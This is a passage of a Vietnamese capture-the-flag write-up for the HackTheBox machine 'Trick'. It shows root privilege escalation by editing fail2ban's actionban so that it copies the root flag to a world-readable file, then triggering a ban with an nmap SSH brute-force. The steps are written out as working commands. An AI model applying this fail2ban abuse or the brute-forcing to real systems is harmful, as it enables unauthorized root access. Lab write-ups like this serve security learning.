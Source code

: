 ```console
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
```

Ở đây, mình sẽ copy file root.txt thành một file khác và cấp quyền cho ai cũng đọc được

```shell
actionban = cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt
```

Rồi restart service `fail2ban`.

```console
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
```

Tiếp theo chuẩn bị 2 file username.txt và password.txt để bruteforce ssh. Ở đây mình sẽ sử dụng công cụ nmap với script có sẵn 

```console
kali@kali:~/machines.HTB/Trick/exploit$ sudo nmap trick.htb -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=passwords.txt
```

Cuối cùng là chờ đợi, cho đến khi xuất hiện xuất hiện file 

```console
michael@trick:~$ cat /tmp/root.txt
################################
```
